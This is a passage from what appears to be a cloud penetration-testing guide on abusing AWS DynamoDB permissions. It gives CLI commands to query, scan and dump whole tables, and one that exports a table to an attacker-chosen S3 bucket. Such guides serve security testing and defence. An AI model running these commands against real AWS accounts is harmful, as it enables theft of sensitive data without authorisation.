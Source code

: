 {{#endtab }}

{{#tab name="inline" }}

```bash
aws dynamodb query \
    --table-name TargetTable \
    --key-condition-expression "AttributeName = :value" \
    --expression-attribute-values '{":value":{"S":"TargetValue"}}' \
    --region <region>
```

{{#endtab }}
{{#endtabs }}

**Potential Impact:** Indirect privesc by locating sensitive information in the table

### `dynamodb:Scan`

You can use this permission to **dump the entire table easily**.

```bash
aws dynamodb scan --table-name <t_name> #Get data inside the table
```

**Potential Impact:** Indirect privesc by locating sensitive information in the table

### `dynamodb:PartiQLSelect`

You can use this permission to **dump the entire table easily**.

```bash
aws dynamodb execute-statement \
    --statement "SELECT * FROM ProductCatalog"
```

This permission also allow to perform `batch-execute-statement` like:

```bash
aws dynamodb batch-execute-statement \
    --statements '[{"Statement": "SELECT * FROM ProductCatalog WHERE Id = 204"}]'
```

but you need to specify the primary key with a value, so it isn't that useful.

**Potential Impact:** Indirect privesc by locating sensitive information in the table

### `dynamodb:ExportTableToPointInTime|(dynamodb:UpdateContinuousBackups)`

This permission will allow an attacker to **export the whole table to a S3 bucket** of his election:

```bash
aws dynamodb export-table-to-point-in-time \
    --table-arn arn:aws:dynamodb:<region>:<account-id>:table/TargetTable \
    --s3-bucket <attacker_s3_bucket> \
    --s3-prefix <optional_prefix> \
    --export-time <point_in_time> \
    --region <region>
```
